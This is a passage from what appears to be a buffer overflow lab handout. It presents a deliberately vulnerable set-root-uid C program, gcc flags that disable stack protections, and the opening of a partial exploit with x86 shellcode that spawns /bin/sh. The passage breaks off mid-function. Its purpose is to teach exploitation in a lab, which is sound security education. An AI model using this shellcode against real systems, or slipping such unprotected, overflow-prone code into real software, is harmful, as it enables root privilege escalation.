 ```c

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```

Compile the above vulnerable program and make it set-root-uid. You can achieve this by compiling it in the `root` account, and `chmod` the executable to `4755` (don’t forget to include the `execstack` and `-fno-stack-protector` options to turn off the non-executable stack and StackGuard protections):

```sh
gcc -o stack -z execstack -fno-stack-protector stack.c
chmod 4755 stack
```

The above program has a buffer overflow vulnerability. It first reads an input from a file called "badfile", and then passes this input to another buffer in the function `bof()`. The original input can have a maximum length of 517 bytes, but the buffer in `bof()` has only 12 bytes long. Because `strcpy()` does not check boundaries, buffer overflow will occur. Since this program is a set-root-uid program, if a normal user can exploit this buffer overflow vulnerability, the normal user might be able to get a root shell. It should be noted that the program gets its input from a file called "badfile". This file is under users’ control. Now, our objective is to create the contents for "badfile", such that when the vulnerable program copies the contents into its buffer, a root shell can be spawned.

### Task 1: Exploiting the Vulnerability

We provide you with a partially completed exploit code called "exploit.c". The goal of this code is to construct contents for "badfile". In the code, the shellcode is given to you. You need to develop the rest.

```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
```